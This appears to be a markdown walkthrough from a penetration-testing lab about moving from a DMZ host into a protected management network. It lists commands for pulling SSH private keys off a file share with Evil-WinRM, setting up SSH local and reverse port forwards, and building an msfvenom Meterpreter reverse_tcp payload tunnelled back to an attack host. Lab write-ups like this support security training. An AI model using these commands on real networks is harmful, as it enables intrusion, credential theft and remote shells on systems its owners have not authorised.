 
### 🔍 Additional AD Enumeration
```cmd
# Best practice recommendations:
- Excessive privilege identification
- Stale account discovery
- Service account analysis
- GPO security review
- Trust relationship assessment
- Certificate template analysis
```

## 🌐 Protected Network Access

### 🔍 Management Network Discovery
```cmd
# Target: 172.16.9.0/23 subnet (management network)
# Goal: Access "crown jewels" servers
# Challenge: Should not be directly accessible from principal domain

# Network topology:
Attack Host → dmz01 (172.16.8.120) → DC01 (172.16.9.3) → MGMT01 (172.16.9.25)
```

### 🗝️ SSH Key Discovery
```bash
# SSH private key location:
C:\Department Shares\IT\Private\Networking\

# Available keys:
ssmallsadm-id_rsa    # Management network access
[other_user]-id_rsa  # Additional network access
[admin_user]-id_rsa  # Privileged access keys

# Key extraction via Evil-WinRM:
download "C:\Department Shares\IT\Private\Networking\ssmallsadm-id_rsa" ./ssmallsadm-key
```

## 🔄 Double Pivot Configuration

### 🛠️ Complex Tunneling Setup
```bash
# Phase 1: SSH Local Port Forwarding (Attack → DMZ01)
ssh -i id_rsa -L 5985:172.16.8.3:5985 root@DMZ01_IP
# Result: Local WinRM access to DC01

# Phase 2: SSH Reverse Port Forwarding (DMZ01 → Attack)  
ssh -i id_rsa -R 1234:ATTACK_IP:8443 root@DMZ01_IP
# Result: Reverse tunnel for DC01 → Attack host communication

# Phase 3: Meterpreter Payload Chain
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.8.120 LPORT=1234 -f exe -o dc_shell.exe
# Target: DMZ01 internal interface, tunneled to attack host
```
